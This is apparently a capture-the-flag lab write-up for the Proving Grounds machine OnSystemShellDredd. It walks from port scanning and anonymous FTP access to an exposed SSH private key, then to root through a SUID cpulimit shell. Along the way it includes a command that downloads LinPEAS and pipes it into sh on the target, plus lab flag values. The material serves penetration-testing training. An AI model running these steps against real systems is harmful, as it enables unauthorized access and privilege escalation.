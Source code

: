 # OnSystemShellDredd (rough notes)

Initial service enumeration: 

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-OnSystemShellDredd]
└─$ nmap -v -p- -T4 -Pn ossd
...

PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown
```

Now with service version fingerprinting:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-OnSystemShellDredd]
└─$ nmap -v -p 21,61000 -A ossd
...

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.201
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like we have:
- an FTP server that allows anonymous access on port 21; the server is vsFTPd version 3.0.3
- an SSH server on port 61000

Logging into the FTP server with anonymous access:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-OnSystemShellDredd]
└─$ ftp ossd 
Connected to ossd.
220 (vsFTPd 3.0.3)
Name (ossd:scr1pt3r): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Digging for files we find a hidden directory `.hannah`:

```
ftp> ls
229 Entering Extended Passive Mode (|||56602|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||12021|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
```

The directory contains an RSA private key:

```
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||59162|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```

Downloading it to my local machine:

```
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||49191|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |*************************************************************************|  1823        1.45 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (25.34 KiB/s)
```

On our local machine, we need to fix the file permissions for the private key, or SSH will not allow us to use it:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-OnSystemShellDredd]
└─$ chmod 600 id_rsa 
```

Using the key to SSH into the remote host as user `hannah`:

```
┌──(scr1pt3r㉿pwnbox)-[~/go/src/github.com/adrianosela/road-to-oscp/write-ups/proving-grounds/linux/play/easy/2024-03-31-OnSystemShellDredd]
└─$ ssh -i id_rsa hannah@ossd -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```

We land in `hannah`'s home directory, where we find our access flag:

```
hannah@ShellDredd:~$ cat local.txt
979f105eb7f13b98dd46a30654f018da
```

Time for... LinPEAS!

```
hannah@ShellDredd:/etc$ wget -O- https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-04-01 03:54:38--  https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
...
```

The most relevant findings are:

- A highly probably kernel exploit

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2019-13272] PTRACE_TRACEME

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1903
   Exposure: highly probable
   Tags: ubuntu=16.04{kernel:4.15.0-*},ubuntu=18.04{kernel:4.15.0-*},debian=9{kernel:4.9.0-*},[ debian=10{kernel:4.19.0-*} ],fedora=30{kernel:5.0.9-*}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/47133.zip
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2019-13272/poc.c
   Comments: Requires an active PolKit agent.
```

- `mawk` and `cpulimit` binaries have SUID

```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
...
-rwsr-sr-x 1 root root 120K Mar 23  2012 /usr/bin/mawk
...
-rwsr-sr-x 1 root root 23K Jun 23  2017 /usr/bin/cpulimit
```

Using [GTFOBins](https://gtfobins.github.io/) as a reference, tried the privilege escalation vectors with mawk and got nowhere

```
hannah@ShellDredd:/$ mawk 'BEGIN {system("cat /root/proof.txt")}'
cat: /root/proof.txt: Permission denied
```

However, `cpulimit` worked:

```
hannah@ShellDredd:/$ cpulimit -l 100 -f -- /bin/sh -p
Process 20996 detected
# whoami
root
```

We quicky find our proof in the root directory:

```
# cd /root
# cat proof.txt
fa93b6e606b0a377d023f3a80675ffa2
```